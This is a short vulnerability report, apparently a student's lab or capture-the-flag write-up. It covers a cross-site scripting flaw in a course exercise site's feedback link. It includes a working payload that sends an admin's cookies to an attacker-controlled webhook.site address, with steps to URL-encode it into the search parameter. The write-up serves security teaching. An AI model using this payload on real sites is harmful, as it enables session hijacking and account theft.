 # ist193587

## Vulnerabilty

Cross-site scripting.

## Where

On the link of the bug/feature part.

## Impact

Allows the user to execute script commands on the admin's browser in this case to get the cookies

## Steps to Reproduce

1. First I discovered where it could be executed, since the feedback portion says that what we say is gonna be shared with them i believed that there was a big chance that what was sent is gonna be read by a admin, with this in mind i used Webhook, to have a site i could control, and then just send a script to admin where he would send the resources that are being asked to the url. The payload used is `<script>window.location.replace("https://webhook.site/<random_identifier_you_were_given>?cookie="+document.cookie)</script>` this need to be url encoded since the admin will not read this script has it is. After url encoding it we just insert this in front of `http://mustard.stt.rnl.tecnico.ulisboa.pt:22251/?search=` and we should get the cookie.

